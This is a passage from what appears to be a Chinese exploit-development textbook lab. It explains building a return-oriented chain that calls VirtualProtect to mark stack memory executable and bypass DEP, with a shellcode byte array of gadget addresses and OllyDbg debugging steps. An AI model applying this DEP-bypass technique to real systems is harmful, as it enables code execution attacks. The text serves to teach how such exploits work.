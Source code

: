 需要注意选择的指令中不能修改 ESP、EBP、EAX，这几个寄存器的值后期都会用到，本次实验我们选择 0x7CBF1A0A 处的``` POP ESI POP EBX POP EDI RETN``` 指令。我们依然采用上个实验中使用的``` POP EAX RETN```指令来将 0x7CBF1A0A 赋值给EAX。到这里利用 VirtualProtect
修改内存属性的关键部分就都搞定了，我们再搞定两个参数就可以实现这个伟大的目标了。
- （1）VirtualProtect 参数之修改内存大小，在这里我们不妨设置为 0x000000FF，255 个字节的空间足够放置弹出对话框的机器码。
- （2）VirtualProtect 参数之内存新属性标志，根据 MSDN 的介绍，这里我们需要设置为 0x00000040。

根据以上分析，我们再来布置 shellcode，如下所示。

```c++
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "……"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"//pop eax retn
    "\x0A\x1A\xBF\x7C"//pop pop pop retn
    "\xBA\xD9\xBB\x7C"//修正 EBP
    "\x8B\x17\x84\x7C"//RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77"//push esp jmp eax
    "\xFF\x00\x00\x00"//要修改的内存大小
    "\x40\x00\x00\x00"//可读可写可执行属性代码
    "\xBF\x7D\xC9\x77"//push esp jmp eax
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xE8\x1F\x80\x7C"//修改内存属性
    ;
```

重新编译程序，然后用 OllyDbg 加载程序。继续在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后单步运行程序并注意观察每条指令对于程序流程和堆栈的影响，同时要思考选择该指令的原因，彻底掌握 shellcode 布置技巧。当程序执行到 VirtualProtect 的 RETN 0x10 指令（0x7C801FFC）时暂停程序，再来观察当前内存状态。

如图 12.3.21 所示，EAX 的值为 1，根据 MSDN 的介绍说明我们已经成功修改了内存属性，现在我们可以在 0x0012FEC0~0x0012FEC0+0xFF 的范围内为所欲为了！接下来的布置工作很简单，可以在 0x0012FEE4 位置放置 JMP ESP 指令，并在 RETN 0x10 后 ESP 指向的位置开始放置弹出对话框的机器码，实现 exploit。最终的 shellcode 布局如图 12.3.22 所示。

<img src="images/09/virtualprotect返回前状态.png">
